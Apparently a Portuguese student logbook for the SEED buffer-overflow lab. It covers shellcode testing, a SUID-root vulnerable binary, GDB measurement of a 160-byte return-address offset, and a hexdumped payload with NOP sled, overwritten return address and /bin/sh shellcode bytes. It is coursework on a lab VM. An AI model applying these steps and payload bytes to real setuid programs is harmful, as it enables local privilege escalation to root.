








# LOGBOOK5 — Buffer Overflow 

Este logbook documenta, as Tasks 1–3 do guia SEED “Buffer Overflow Attack (Set-UID Program)”. Seguimos os apontamentos do professor e registou-se as evidências (comandos e saídas) recolhidas na VM SEED.

Assunções e ambiente:
- Arquitetura: x86 (32-bit para o alvo; host pode ser x86_64). Compilação com `-m32` ativa.
- ASLR desativado para a experiência (apenas na VM do laboratório): `kernel.randomize_va_space=0`.
- Grupo prático: G=6 ⇒ L1 = 100 + 8×G = 148.
- Se fizer o link de `/bin/sh` para `/bin/zsh`, repor no fim para `/bin/dash`.

## Task 1 — Testar o shellcode (32-bit)

Objetivo: compilar e executar o programa de teste do shellcode de 32 bits, verificando que abre um shell no contexto do utilizador normal (não root).

Comandos (na pasta `shellcode/` do Labsetup):

```bash
make
./a32.out
# dentro do shell: 
id; whoami
exit
```

Evidência (saídas observadas):

```text
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c

$ ./a32.out
$ id; whoami
uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),133(vboxsf),136(docker)
seed
$ exit
```

Notas:
- Comportamento esperado: o shell é do utilizador normal (uid=1000, `seed`). Como não é SUID, não há privilégios elevados nesta fase.

Evidências (imagens):
- 
- 

## Task 2 — Compilar o programa vulnerável 

Objetivo: ajustar o tamanho do buffer `L1` e gerar os binários normal e de debug.

Passos:
1) No `Labsetup/code/Makefile`, definir `L1 = 148` (porque G=6 ⇒ 100 + 8×6 = 148).
2) Construir os alvos:

```bash
make stack-L1
make stack-L1-dbg
ls -l stack-L1 stack-L1-dbg
```

Evidência (permissões e SUID):

```text
-rwsr-xr-x 1 root seed 15908 Oct 22 12:53 stack-L1
-rwxrwxr-x 1 seed seed 18700 Oct 22 12:53 stack-L1-dbg
```

Observações importantes:
- O alvo `stack-L1` tem o bit SUID ligado (`-rwsr-xr-x`), owner root. É isto que permite que, quando o ataque for bem-sucedido, o shell resultante tenha privilégios.
- A vulnerabilidade está em `strcpy(buffer, str);` com `buffer[L1]` e `str` vindo do ficheiro `badfile` até 517 bytes ⇒ overflow garantido.

Evidências (imagens):
- 
- 

## Task 3 — Demonstrar o ataque 

Estratégia: descobrir a distância entre o início de `buffer` e o `return address` (RET), comprovar que controlamos o RET com um payload de 'A's (0x41), e por fim construir o `badfile` com NOP sled + shellcode + novo RET a apontar para o shellcode.

### 3.1 Descobrir o deslocamento até ao RET (GDB)

1) Criar/limpar o `badfile` e arrancar o binário de debug com GDB.

```bash
> badfile
gdb ./stack-L1-dbg
```

2) Parar no início da função vulnerável e deixar o prólogo atualizar o `EBP` atual:

```gdb
(gdb) b bof
(gdb) run
(gdb) next    # avançar 1–2 instruções após a entrada em bof para estabilizar EBP
```

3) Medir os endereços relevantes e o offset até ao RET:

```gdb
(gdb) p $ebp
$1 = (void *) 0xffffcb98
(gdb) p &buffer
$2 = (char (*)[148]) 0xffffcafc
(gdb) p/x (unsigned)($ebp+4) - (unsigned)&buffer
$3 = 0xa0
(gdb) p/d (unsigned)($ebp+4) - (unsigned)&buffer
$4 = 160
```

Conclusão: o `return address` está 160 bytes acima do início de `buffer`. Portanto, os bytes [0..159] do payload atingem até ao RET; os bytes [160..163] sobrepõem o RET.

Evidências (imagens):
- 
- 

### 3.2 Comprovar controlo do RET

Gerar um payload de teste (517 'A's) e correr até ao retorno da função:

```bash
python3 -c 'print("A"*517)' > badfile
```

```gdb
(gdb) run
Program received signal SIGSEGV, Segmentation fault.
Invalid $PC address: 0x41414141
... EIP: 0x41414141 ('AAAA') ...
```

Evidência: a mensagem `Invalid $PC address: 0x41414141` confirma que o RET foi sobrescrito por `0x41414141` (quatro 'A'), ou seja, controlamos o fluxo de execução.

Evidências (imagens):
- 

### 3.3 Construir o payload final (exploit.py)

Ideia: escrever no `badfile` um NOP sled + shellcode + padding até 160 bytes, seguido de 4 bytes com um endereço que aponte para dentro do NOP sled/shellcode (little-endian). Repetir o endereço algumas vezes aumenta a robustez.


- 

Execução do ataque (dentro do diretório `code/`):

```bash
python3 exploit.py
./stack-L1
# Se abrir shell root (SUID), dentro dele:
id; whoami
```


---

Resumo rápido (Questão 1):
- Task 1: `a32.out` executa o shellcode e abre um shell de utilizador normal (uid=1000 `seed`).
- Task 2: `L1=148` (G=6), foram gerados `stack-L1` (SUID root) e `stack-L1-dbg`.
- Task 3: Offset até ao RET medido em 160 bytes; payload de teste com 517 'A' produz `EIP=0x41414141`; o `exploit.py` gera um `badfile` com NOP sled + shellcode + novo RET a apontar para o shellcode, permitindo obter shell privilegiado quando corrido em `./stack-L1`.

---

## Questão 2 — Visualizar a memória do overflow e identificar shellcode e RET

Objetivo: depois de termos um `badfile` funcional, usar o GDB para observar a região da stack após o `strcpy` vulnerável e identificar:
- Onde começa o shellcode na memória; e
- Qual o endereço gravado no `return address` (RET) e como ele aponta para o shellcode.

### Evidências usadas (desta execução)

- Medições (na mesma sessão):
	- `&buffer = 0xffffca7c`
	- `$ebp = 0xffffcb18` ⇒ deslocamento até RET: `($ebp+4) - &buffer = 0xa0 = 160` bytes

- `badfile` gerado (hexdump parcial):

```text
000000a0  c4 cb ff ff 90 90 90 90  90 90 90 90 90 90 90 90  |................|
...
000001e0  90 90 90 90 90 90 90 90  90 31 c0 50 68 2f 2f 73  |.........1.Ph//s|
000001f0  68 68 2f 62 69 6e 89 e3  50 53 89 e1 31 d2 31 c0  |hh/bin..PS..1.1.|
00000200  b0 0b cd 80 90                                    |.....|
```

Interpretação direta do `badfile`:
- Bytes [0xa0..0xa3] = `c4 cb ff ff` ⇒ novo RET = `0xffffcbc4` (little‑endian).
- A sequência do shellcode começa nos bytes `31 c0 50 68 2f 2f 73 68 68 2f 62 69 6e 89 e3 50 53 89 e1 31 d2 31 c0 b0 0b cd 80`.
	- No hexdump, esses bytes aparecem a partir do offset `0x1e9` (após 9 NOPs na linha `0x1e0`).

Mapeamento para endereços de memória (com `&buffer = 0xffffca7c`):
- Endereço do shellcode (primeiro byte `0x31`):
	- `&buffer + 0x1e9 = 0xffffca7c + 0x1e9 = 0xffffcc65`.
- Novo RET: `0xffffcbc4`.
	- Posição relativa dentro do buffer: `0xffffcbc4 - 0xffffca7c = 0x148` (328 bytes após o início do buffer) ⇒ dentro do NOP sled, antes do shellcode.
	- Assim, ao retornar, a execução entra no NOP sled em `0xffffcbc4` e desliza até ao shellcode em `0xffffcc65`.

### Como observar isto no GDB (passo a passo)

1) Preparar e arrancar no ponto certo:

```gdb
(gdb) b bof
(gdb) run
# avançar até depois da chamada a strcpy(buffer, str)
(gdb) b stack.c:21    # linha imediatamente a seguir ao strcpy (ajustar se necessário)
(gdb) c               # continuar até essa linha (strcpy já executou)
```

2) Confirmar endereços base e o RET sobrescrito:

```gdb
(gdb) p &buffer                      # ex.: 0xffffca7c
(gdb) p $ebp                         # ex.: 0xffffcb18
(gdb) p/d (unsigned)($ebp+4)-(unsigned)&buffer   # deve dar 160
(gdb) x/wx $ebp+4                    # deve mostrar 0xffffcbc4 (novo RET)
```

3) Visualizar a região do buffer após o overflow:

```gdb
(gdb) x/64xb &buffer                 # deve mostrar muitos 0x90
(gdb) x/24xb &buffer+0x1e9           # deve começar em 0x31 0xc0 0x50 0x68 ... (shellcode)
(gdb) x/16xb 0xffffcbc4              # endereço do RET → deverá cair em NOPs (0x90)
```

### Explicação resumida

- O `strcpy` copia 517 bytes para `buffer[148]`, causando overflow. Os primeiros 160 bytes (offset `0x00..0x9f`) preenchem o buffer; os bytes `0xa0..0xa3` sobrepõem o `return address` guardado em `[$ebp+4]`.
- Escrevemos `0xffffcbc4` nesses 4 bytes; este endereço está dentro do nosso NOP sled (`&buffer + 0x148`).
- Quando `bof` faz `ret`, o `EIP` recebe `0xffffcbc4`, começa a executar NOPs e atinge o shellcode em `0xffffcc65`, que invoca `/bin/sh`.

Comprova-se então que o shellcode começa em `0xffffcc65` e o novo `return address` em (`$ebp+4` sobrescrito com `0xffffcbc4`), mostrando como este aponta para o shellcode através do NOP sled.

